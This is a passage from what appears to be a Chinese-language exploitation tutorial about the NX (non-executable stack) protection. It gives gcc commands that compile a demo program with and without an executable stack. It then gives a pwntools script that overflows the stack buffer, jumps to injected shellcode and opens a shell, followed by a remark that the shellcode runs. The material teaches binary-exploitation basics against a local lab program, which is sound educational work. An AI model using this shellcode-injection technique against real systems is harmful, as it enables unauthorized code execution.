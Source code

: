 ```plain
```

编译命令：

```plain
gcc -o test2 -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
gcc -o test1 -z execstack -fno-stack-protector -no-pie -z lazy demo.c
#noexecstack 代表开启 NX，
```

写入 shellcode 的利用脚本：

```plain
from pwn import*
context.arch='amd64'
io = process('./test1')
#io = process('./test2')
stack = int(io.recv(14),16)
shellcode = asm(shellcraft.sh())
gdb.attach(io)
pause()
io.sendline(b'a'*0x18+p64(stack+0x20)+shellcode)

io.interactive()
```

首先看 text1

利用 gdb 调试到我们返回 shellcode 的位置

我们可以看到，程序很轻易的就执行了栈上输入的 shellcode

[![](assets/1706090564-dcc7575884e3526937b620d7e48b0812.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123233934-9b94bf2e-ba05-1.png)
